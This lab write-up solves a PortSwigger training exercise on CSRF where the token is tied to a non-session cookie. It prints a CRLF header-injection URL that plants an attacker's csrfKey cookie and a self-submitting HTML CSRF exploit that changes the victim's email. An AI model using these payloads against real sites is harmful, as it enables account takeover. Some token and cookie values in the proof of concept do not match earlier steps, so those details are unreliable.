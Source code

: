 # CSRF where token is tied to non-session cookie

## Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)'s email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system. 

## Reproduction and proof of concept

1. Open Burp's browser and log in to the `wiener` account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that changing the `session` cookie logs you out, but changing the `csrfKey` cookie merely results in the `csrf` token being rejected. This suggests that the `csrfKey` cookie may not be strictly tied to the session. To check `csrf` cookie and `csrf` token are tied, enter an invalid token. The request is not accepted.
3. Open a private/incognito browser window, log in to Portswigger, then on the lab site into the `carlos` attacker account, and send a fresh update email request into Burp Repeater.
4. Swapping the `csrfKey` cookie and `csrf` parameter from the `carlos` account to the `wiener` account (or vv), the request is accepted.

```text
HTTP/1.1 302 Found
Location: /my-account
Connection: close
Content-Length: 0
```

Swapping only one of the two, the request is not accepted. The two are tied.

5. Close the Repeater tab and incognito browser.
6. Back in the original browser in the `wiener` account, do a search, send the resulting request to Burp Repeater. Check that the search term gets reflected in the `Set-Cookie` header. 

```text
GET /?search=whatever HTTP/1.1
Host: 0a8a007003328fbbc0520eb3006500e7.web-security-academy.net
Cookie: session=3434rpqGQke3AkVlNlulO9qFJKzTjK4J; csrfKey=h8xkUPRUr4PbtkKwRm6bORpJx5qWNibu
...
```

Because the search function has no CSRF protection, this can be used to inject cookies into the victim user's browser.

7. Create a URL that uses this vulnerability to inject a `csrfKey` cookie from the carlos attacker account into the victim's browser:

```text
/?search=test%0d%0aSet-Cookie:%20csrfKey=JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4%3b%20SameSite=None
```

Results:

```text
HTTP/1.1 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4; SameSite=None; Secure; HttpOnly
```
    
8. Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defences lab (above), ensuring that you include your CSRF token. The exploit should be created from the email change request.
9. Remove the auto-submit `script` block and replace it with the `/?search=test%0d%0aSet-Cookie:%20csrfKey=JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4%3b%20SameSite=None`, and change the `csrf` token to the tied `csrfKey` one of the attacker:

```text
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a8a007003328fbbc0520eb3006500e7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a8a007003328fbbc0520eb3006500e7.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=49yoasBlApBjSMbVt4Qi2SddyqBHMqgn%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

**Copy HTML** and put it in the `body` of the **Exploit server** form:

![CSRF](/_static/images/csrf2.png)

10. **Store** the exploit in the exploit server of the lab, then click **Deliver to victim**.

## Exploitability

An attacker needs to use the exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. There are two accounts on the application that can be used: `wiener:peter` (victim) and `carlos:montoya` (attacker).

## Impact

If an attacker can change the email address of another user, he/she can log in as that user and gain access to the account and all of its data.
